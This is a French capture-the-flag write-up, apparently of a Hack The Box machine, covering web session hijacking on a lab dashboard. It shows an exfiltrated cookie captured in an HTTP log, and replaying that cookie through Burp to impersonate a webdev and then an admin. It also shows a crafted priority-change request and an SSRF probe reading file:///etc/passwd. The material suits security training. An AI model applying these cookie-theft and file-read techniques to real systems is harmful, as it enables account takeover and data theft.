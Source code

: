 Les payloads avec mon VPS semblent ne pas marcher, mais les équivalents avec une adresse en 10.10.16.X ont fonctionné une fois.

On reçoit bien le cookie de quelqu'un : 

> - [30/Apr/2024 11:29:47] "GET /?cookie=dXNlcl9kYXRhPWV5SjFjMlZ5WDJsa0lqb2dNaXdnSW5WelpYSnVZVzFsSWpvZ0ltRmtZVzBpTENBaWNtOXNaU0k2SUNKM1pXSmtaWFlpZlh3MU9HWTJaamN5TlRNek9XTmxNMlkyT1dRNE5UVXlZVEV3TmprMlpHUmxZbUkyT0dJeVlqVTNaREpsTlRJell6QTRZbVJsT0RZNFpETmhOelUyWkdJNA== HTTP/1.1" 200 -

En décodant cette chaîne puis le token obtenu on obtient :

    {"user_id": 2, "username": "adam", "role": "webdev"}|58f6f725339ce3f69d8552a10696ddebb68b2b57d2e523c08bde868d3a756db8

On devrait donc pouvoir se connecter en tant que cet utilisateur au dashboard trouvé plus haut qui nous refusait l'accès jusqu'ici. 

Burp => Proxy => Settings => Match and replace => Remplacer l'ancien cookie par le nouveau : 

      Cookie: user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4
 
Éventuellement, utiliser la console F12 et remplacer le cookie à la main si il y a des problèmes avec la première méthode.

En se connectant au dashboard, on observe quelques rapports écrits par les membres de l'équipe. 

L'utilisateur actuel a la possibilité de les lire, de les passer en "résolu" ou de leur attacher une haute priorité. C'est sûrement cette dernière option qui permet de monter à l'administrateur.

Requête HTTP à renvoyer avec le bon ID de rapport et le cookie du développeur web : 

    POST /change_priority?report_id=3&priority_level=1 HTTP/1.1
    Host: dashboard.comprezzor.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Cookie: user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4


En faisant le test sur le même rapport contenant la première XSS, on obtient bien un deuxième cookie un peu après : 

    user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
    
Même manipulation pour accéder au dashboard en tant que "vrai administrateur". Quelques boutons en plus : 

- Tout lister
- Créer une sauvegarde
- Créer un rapport au format PDF

La dernière option permet de générer un rapport au format PDF depuis une URL de rapport. J'ai directement pensé à une SSRF et testé le payload "file:///etc/passwd".

